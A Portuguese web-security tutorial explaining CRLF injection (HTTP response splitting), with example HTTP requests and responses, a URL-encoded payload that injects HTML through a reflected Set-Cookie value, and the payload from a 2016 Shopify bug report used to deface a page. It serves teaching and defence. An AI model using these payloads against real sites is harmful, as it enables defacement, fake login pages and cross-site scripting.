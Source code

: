 # Carriage Return Line Feed

### O que é:

A partir desta vulnerabilidade será muito importante o leitor entender bem o funcionamento da web, então caso ainda esteja com dúvidas, releia os artigos sobre o [Protocolo HTTP](Protocolo%20HTTP-HTTPS.md), e o [Cliente-Servidor na web](Cliente-Servidor%20na%20WEB.md), feito isto, vamos à  vulnerabilidade.

O CRLF são caracteres usados para pular linhas, eles correspondem respectivamente, ao fim de uma linha e o início de outra para muitos protocolos, incluindo o HTTP, nele estes caracteres são representados por %0D %0A eles são, respectivamente, \r \n.

Achar esta vulnerabilidade é um pouco difícil pois o atacante deve estar atento as requests e responses mas caso consiga encontrá-la ele pode desde modificar uma response até criar um Firewall Evasion, que é quando o atacante consegue burlar verificações de segurança.

### Funcionamento Técnico:

Esta vulnerabilidade ocorre quando o atacante injeta um código no cabeçalho da request e este valor é "refletido" no cabeçalho da response, assim, quando é feita a injeção de caracteres CRLF ele pode criar sua própria response, conseguindo assim até criar uma página html inteira.

O local em que mais se encontra este problema é no cabeçalho Set-Cookie da response, mas ele pode ser encontrado em outros locais.

Imagine que ao inserir seus dados em um input você envie uma request parecida com esta para o servidor:


```http
GET /destino.php?nome=teste HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost/home.html
Upgrade-Insecure-Requests: 1
```
e o servidor devolva esta response:

```http
HTTP/1.1 200 OK
Date: Fri, 15 May 2020 13:54:45 GMT
Server: Apache/2.4.41 (Debian)
Set-Cookie: Cookie=teste; expires=Fri, 15-May-2020 13:54:47 GMT; Max-Age=2
Content-Length: 18
Connection: close
Content-Type: text/html; charset=UTF-8

Hello World!
```
Percebido que nome == Cookie, você pode injetar crlf para gerar uma uma quebra de linha, inserindo assim, o que você quiser abaixo de Cookie.

Exemplo:

```http
GET /destino.php?nome=teste%0d%0a%0d%0a%3Chtml%3E%3Cbody%3EVoce%20foi%20hackeado%3C%2Fbody%3E%3C%2Fhtml%3E HTTP/1.1
Host: 192.168.15.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.15.9/home.html
Upgrade-Insecure-Requests: 1
```
response:
```http
HTTP/1.1 200 OK
Date: Fri, 15 May 2020 14:00:07 GMT
Server: Apache/2.4.41 (Debian)
Set-Cookie: Cookie=teste

<html><body>Voce foi hackeado></body</html>; expires=Fri, 15-May-2020 14:00:09 GMT; Max-Age=2
Content-Length: 65
Connection: close
Content-Type: text/html; charset=UTF-8

Hello World!
```
### Exemplo:

Este report foi feito em 2016 para a empresa shopify, nele o pesquisador percebeu que a ultima url que ele tinha acessado era refletida no cookie, então caso injetasse um código crlf seria possível modificar a response.

A url vulnerável era esta: https://v.shopify.com/last_shop?shop=krankopwnz.myshopify.com 

O pesquisador injetou ```%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20te\
xt/html%0d%0aContent-Length:%2019%0d%0a%0d%0a<html>deface</html>``` após o fim da url, gerando assim uma página com o deface.

Obviamente o pesquisador poderia gerar algo mais complexo, como uma página de login ou um XSS,entretanto para a PoC isto era o suficiente.

PoC:![](https://i.imgur.com/0lEiNeb.png)

### Como explorar:

Para explorar esta vulnerabilidade o pesquisador deve estar atento as requests e as responses da aplicação, para perceber quando alguns parâmetros estão sendo refletidos, para então, tentar montar um payload.

Acima, comentei que este erro é encontrado bastante no set-cookie, mas ele também pode ser encontrado no header Location e no header da request, de modo a editá-la antes de enviar ao servidor.

É interessante notar que esta vulnerabilidade pode gerar problemas como HTML Injection, Cross-Site Scripting e erros de logs no servidor, logo para extrair o máximo deste problema, esteja atento a tudo que ele pode afetar.
